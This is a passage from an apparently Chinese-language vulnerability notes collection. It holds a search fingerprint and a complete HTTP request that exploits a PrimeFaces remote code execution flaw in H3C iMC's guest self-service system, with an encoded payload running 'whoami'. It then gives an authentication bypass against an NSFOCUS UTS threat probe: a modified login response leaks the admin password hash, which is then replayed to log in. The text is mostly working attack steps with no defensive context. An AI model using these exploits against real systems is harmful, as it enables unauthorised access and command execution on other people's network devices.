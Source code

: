 ```
body="iMC来宾接入自助管理系统"
```

##### 远程代码执行

```
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 1567

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```

## 二、网络检测与响应

### 0x01 蜜罐

### 0x02 IDS

#### 绿盟 UTS 综合威胁探针

##### 管理员任意登录

输入 admin/任意密码，点击登录。更改响应包，将 {"status":false,...} 中的 false 改为 true，此时，响应包将泄露 admin 用户密码的 md5 值。

利用 md5 值登录页面：

```
POST /webapi/v1/authen_user

{"username":"admin","password":md5}
```

### 0x03 防火墙
